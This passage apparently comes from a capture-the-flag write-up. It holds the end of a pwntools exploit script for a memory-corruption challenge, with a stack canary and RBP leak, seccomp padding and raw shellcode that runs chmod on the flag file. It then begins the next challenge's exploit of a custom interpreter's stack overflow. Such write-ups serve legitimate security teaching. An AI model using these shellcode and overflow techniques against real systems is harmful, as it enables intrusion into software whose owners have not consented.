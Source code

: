 ```python
        rbp_leak = data[start_index: start_index + 6] + b'\x00' * 2 # 6 instead of 8, as always the 2 MSBs are \x00
        assert(len(rbp_leak) == 8)
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@RBP value:{rbp_leak}')
        break


seccomp_fake_syscalls = (struct.pack('<Q', 0x100000000) + struct.pack('<Q', 0x5a)) * int(PAD_LENGTH / 16) + b'E' * (PAD_LENGTH % 16)
# This is a chmod("flag") shellcode
shellcode = b"\x90" * 0x500 + b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x5A\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x77\x07\x00\x00\x0F\x05"
buf_3 = seccomp_fake_syscalls + canary_bytes + b'D' * canary_to_rbp_delta + rbp_leak + shellcode  # Overwrite RA with rbp addr for simplicity, overflow is large enough
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Challenge 7

We’re given a custom-made assembly language - yan85 code. 

There’s a forward stack overflow vuln within the handler of `read_memory` syscall. \
The method allows reading up to 255 bytes into mem`[768 + reg_b]`, where the max value of `reg_b` may be 255. \
In that case, we can write 255 bytes starting from `mem[1023]`. This means we can access memory out of the bounds of the 1024-byte memory buffer. \
Recall this buffer is allocated right within main initialization, hence **the only stack frame we would be able to corrupt is main’s**. \
Therefore, we have to terminate the interpreter loop gracefully, and corrupt main’s return address.

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level7.0'
GDB_SCRIPT= '''
b *0x4026b1

c

'''

@dataclass
class Regs:
    a = b'\x02'
    b = b'\x01'
    c = b'\x04'
    d = b'\x10'
    s = b'\x08'
    i = b'\x40'
    f = b'\x20'

@dataclass
class Opcodes:
    STM = b'\x01'
    IMM = b'\x02'
    ADD = b'\x04'
    CMP = b'\x08'
```
